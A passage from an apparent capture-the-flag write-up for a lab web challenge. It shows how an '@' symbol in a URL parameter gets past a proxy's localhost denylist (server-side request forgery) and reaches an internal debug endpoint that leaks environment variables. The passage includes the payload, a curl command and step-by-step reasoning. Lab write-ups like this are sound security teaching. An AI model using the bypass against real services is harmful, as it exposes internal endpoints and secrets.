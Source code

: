 
## Exploitation

### Primary Method: @ Symbol Bypass

**Payload construction:**
```
/?url=@0.0.0.0:1337/debug/environment
```

**Full URL:**
```
http://94.237.54.42:55319/?url=@0.0.0.0:1337/debug/environment
```

**What happens:**
1. Application receives: `@0.0.0.0:1337/debug/environment`
2. Constructs: `http://reddit.com@0.0.0.0:1337/debug/environment`
3. Denylist check passes (no `localhost`, `127.`, etc.)
4. HTTP client interprets `0.0.0.0:1337` as the target
5. Request goes to internal debug endpoint
6. Since it's from localhost (internal request), bypasses `@is_from_localhost`

### Executing the Attack

**Using curl:**
```bash
curl "http://94.237.54.42:55319/?url=@0.0.0.0:1337/debug/environment"
```

**Using browser:**
Simply navigate to:
```
http://94.237.54.42:55319/?url=@0.0.0.0:1337/debug/environment
```

### Success - Flag Captured!

![Flag Retrieved from Environment](/assets/img/htb-proxyasaservice/flag-output.png)
_Successfully bypassed restrictions and retrieved environment variables_
